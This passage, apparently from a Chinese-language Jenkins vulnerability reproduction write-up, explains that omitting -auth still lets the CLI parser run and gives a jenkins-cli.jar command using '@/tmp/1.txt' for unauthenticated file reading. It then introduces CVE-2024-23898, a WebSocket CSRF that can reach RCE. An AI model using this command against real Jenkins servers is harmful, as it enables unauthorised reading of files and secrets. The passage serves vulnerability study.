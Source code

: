 ![图片](assets/1706497193-2fb6deca71541bfbbb43a602c12ae995.png)

后面发现把-auth 删除发现也可以进入命令行解析流程，触发漏洞。无权限即可文件读取

```plain
java -jar jenkins-cli.jar  -s http://localhost:8081/ -http who-am-i @/tmp/1.txt
```

![图片](assets/1706497193-d21f055e948041b5c86d19c8571b54dd.png)

#### CVE-2024-23898

看官网通报，该漏洞为一个 websocket 的 CSRF 漏洞，在某些情况下能 RCE，因为之前没学习过 websocket 的 CSRF 特意复现了下这个漏洞

![图片](assets/1706497193-ce1e5262d49eb8f3bcf40536a989e6d2.png)
